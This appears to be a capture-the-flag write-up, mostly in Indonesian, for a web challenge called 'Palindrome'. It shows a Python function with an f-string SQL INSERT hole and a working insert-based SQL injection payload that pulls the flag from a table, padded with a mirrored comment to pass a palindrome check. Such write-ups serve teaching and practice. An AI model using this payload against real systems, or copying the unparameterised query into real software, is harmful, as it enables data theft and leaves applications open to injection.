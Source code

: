 # Palindrome 🤡

## Description

"ibu ratna antar ubi" Tapi ini bukan tentang ibu ratna hehe :)

http://20.205.238.7:10835

Author: rootkids#6987

## Hint

- Again this is sql injection, not blind, but what?

## Solve

1. Vulnerability adalah **Insert SQL Injection**
2. Analisis fungsionalitas aplikasi
    > Untuk lebih jelas bisa dilihat source code pada [./src](./src)

    - Membuat dan menyimpan sebuah string palindrome
    - Semua string input dari user akan dicek apakah merupakan palindrome yang valid
    - Setiap string palindrome yang valid akan disimpan pada database, dengan identifier `token` pada cookie
    - Terjadi **Insert SQL Injection** pada saat menyimpan string palindrome ke database
        
        ```py
        def insert_palindrome(conn: Connection, user: str, sentence: str) -> None:
        c = conn.cursor()
        c.execute(
            f"INSERT INTO palindromes (user, sentence) VALUES ('{user}', '{sentence}')"
        )
        conn.commit()
        ```

    - Predefined / known flag table

        ```py
        ...
        conn.execute(
            """
            CREATE TABLE IF NOT EXISTS flags (
                id INTEGER PRIMARY KEY AUTOINCREMENT,
                flag TEXT
            );
            """
        )

        conn.execute(
            f"""
            INSERT INTO flags (flag) VALUES ('{os.environ.get('FLAG')}');
            """
        )
        ```

3. Exploit

    Exploit dapat dilakukan dengan melakukan **Insert SQL Injection** pada saat menyimpan string palindrome ke database. Dengan memanfaatkan **Predefined / known flag table**. Dan jangan lupa untuk mendifinisikan `token` pada cookie, juga untuk melakukan bypass check palindrome yang valid, untuk melakukannya bisa menggunakan mirror string.

    Solver sebagai berikut:

    ```sql
    a'), ('{token}', ( SELECT flag FROM flags LIMIT 1 )) -- <mirror string>
    ```

    Contoh:

    ```sql
    a'), ('YMM73qRuczFprTMjW4CdSNGqyQopE5EJ', ( SELECT flag FROM flags LIMIT 1 )) -- )) 1 TIMIL sgalf MORF galf TCELES ( ,'JE5EpoQyqGNSdC4WjMTrpFzcuRq37MMY'( ,)'a
    ```

## Flag

**KWCTF{sql_1n73ction_w1th_p4lindr0m3_char4ct3r}**